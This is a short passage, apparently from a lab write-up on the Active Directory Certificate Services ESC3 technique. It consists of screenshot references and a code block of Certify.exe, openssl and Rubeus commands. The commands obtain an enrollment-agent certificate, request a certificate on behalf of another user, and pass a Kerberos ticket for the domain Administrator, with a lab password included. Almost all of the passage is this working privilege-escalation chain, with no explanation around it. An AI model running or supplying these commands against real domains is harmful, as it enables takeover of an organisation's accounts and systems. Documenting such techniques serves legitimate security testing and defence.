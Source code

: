<img src="/images/2022-09-16/ESC3_exploit2.png">  

#### Certify  
```
.\Certify.exe request /ca:'DC2016-2.mcafeelab.local\mcafeelab-DC2016-2-CA-1' /template:"ESC3_1" /install
.\Certify.exe request /ca:'DC2016-2.mcafeelab.local\mcafeelab-DC2016-2-CA-1' /template:ESC3_2 /onbehalfof:mcafeelab\god /enrollcert:ESC3_1.pfx /enrollcertpw:'Pillemann123!'
openssl pkcs12 -in cert -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx  
.\Rubeus.exe asktgt /domain:mcafeelab.local /dc:dc2016-2.mcafeelab.local /user:Administrator /certificate:esc3_2.pfx /password:test /ptt
```
<img src="/images/2022-09-16/ESC3_exploit4.png">  
